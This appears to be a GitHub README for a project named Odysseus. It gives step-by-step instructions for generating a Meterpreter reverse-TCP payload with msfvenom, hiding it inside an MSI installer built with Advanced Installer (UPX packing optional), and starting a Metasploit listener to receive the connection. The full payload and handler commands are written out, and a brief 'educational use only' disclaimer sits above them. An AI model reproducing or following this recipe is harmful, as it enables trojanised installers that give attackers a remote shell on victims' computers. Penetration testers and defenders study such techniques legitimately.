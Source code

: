 # Odysseus

## Overview

The Odysseus project demonstrates the integration of `msfvenom` and `Advanced Installer` to create a software package with embedded payloads. This guide outlines the process of generating a malicious `.exe` with `msfvenom` and then packaging it into an installer using `Advanced Installer`.

**Important:** This project is intended for educational and ethical use only. Always ensure that you have explicit permission before using or demonstrating any tools or techniques that could potentially be harmful.

## Features

- Creation of a malicious `.exe` file using `msfvenom`.
- Packaging of the `.exe` file into an installer using `Advanced Installer`.
- Detailed instructions and screenshots for each step.

## Prerequisites

Before you start, ensure you have the following tools installed:

- [Metasploit Framework](https://metasploit.help.rapid7.com/docs/installing-the-metasploit-framework)
- [Advanced Installer](https://www.advancedinstaller.com/)
- [UPX](https://upx.github.io/) (optional for executable packing)

## Installation and Setup

### 1. Clone the Repository

Start by cloning the repository to your local machine:

```bash
git clone https://github.com/imnopro/Odysseus.git
cd Odysseus
```

### 2. Generate the Malicious .exe
Use msfvenom to create a malicious .exe payload. Replace LHOST and LPORT with your local IP address and port.

``` bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.9 LPORT=9002 -f exe -o payload.exe
```


### 3. Package the Payload with Advanced Installer

   -Open Advanced Installer:

   -Launch Advanced Installer and create a new project or open an existing one.

   -Add the Payload:

   -Navigate to the "Files and Folders" section. Add the payload.exe file to the desired location in the installer.

   -Configure Installation Settings:

   -Set the install location and other configuration settings as needed.

   -Build the Installer:

   -Click "Build" to generate the MSI installer.





   ## Running the Demonstration

### Start the Listener:

-Use Metasploit to listen for connections.

``` bash
msfconsole
use exploit multi/handler
set LHOST
set LPORT
set payload windows/x64/meterpreter/reverse_tcp
```

### Install the MSI:

Install the MSI package on a test machine to execute the payload, and then run the .exe to test functionality.
